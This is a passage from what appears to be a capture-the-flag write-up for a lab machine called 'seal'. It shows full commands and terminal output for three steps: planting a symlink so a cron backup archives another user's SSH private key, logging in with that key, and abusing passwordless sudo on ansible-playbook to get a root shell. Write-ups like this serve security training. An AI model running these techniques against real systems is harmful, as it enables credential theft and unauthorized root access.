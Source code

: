 Run the command `ln -sf /home/luis/.ssh /var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads` and wait for the cron job to make the backup.
```
tomcat@seal:/var/lib/tomcat9/webapps/ROOT/admin/dashboard$ cd uploads
tomcat@seal:/var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads$ ls -la
total 8
drwxrwxrwx 2 root   root   4096 Oct 14 07:03 .
drwxr-xr-x 7 root   root   4096 May  7 09:26 ..
lrwxrwxrwx 1 tomcat tomcat   16 Oct 14 07:03 .ssh -> /home/luis/.ssh/
tomcat@seal:/var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads$
```

Copy and extract the archive
```
tomcat@seal:/tmp$ ls /opt/backups/archives/
backup-2021-10-14-07:51:32.gz  backup-2021-10-14-07:53:32.gz
tomcat@seal:/tmp$ cp /opt/backups/archives/backup-2021-10-14-07:53:32.gz /tmp/bak.gz
tomcat@seal:/tmp$ gzip -d bak.gz
tomcat@seal:/tmp$ tar -xvf bak
```

This reveals the archived `dashboard` with luis's ssh key
```
tomcat@seal:/tmp$ cd dashboard/uploads/.ssh/
tomcat@seal:/tmp/dashboard/uploads/.ssh$ ssh -i id_rsa luis@127.0.0.1
Could not create directory '/.ssh'.
The authenticity of host '127.0.0.1 (127.0.0.1)' can't be established.
ECDSA key fingerprint is SHA256:YTRJC++A+0ww97kJGc5DWAsnI9iusyCE4Nt9fomhxdA.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
luis@seal:~$ 
```

## Privilege Escalation and root.txt

View programs luis can run as root. luis may run `/usr/bin/ansible-playbook *` as root without a password.
```
luis@seal:~$ sudo -l
Matching Defaults entries for luis on seal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User luis may run the following commands on seal:
    (ALL) NOPASSWD: /usr/bin/ansible-playbook *
luis@seal:~$
```

Follow the gtfobins guide for privilege escalation https://gtfobins.github.io/gtfobins/ansible-playbook/#sudo
```
luis@seal:~$ TF=$(mktemp)
luis@seal:~$ echo '[{hosts: localhost, tasks: [shell: /bin/sh </dev/tty >/dev/tty 2>/dev/tty]}]' >$TF
luis@seal:~$ sudo ansible-playbook $TF
[WARNING]: provided hosts list is empty, only localhost is available. Note that
the implicit localhost does not match 'all'

PLAY [localhost] ***************************************************************

TASK [Gathering Facts] *********************************************************
ok: [localhost]

TASK [shell] *******************************************************************
# whoami
root
# id
```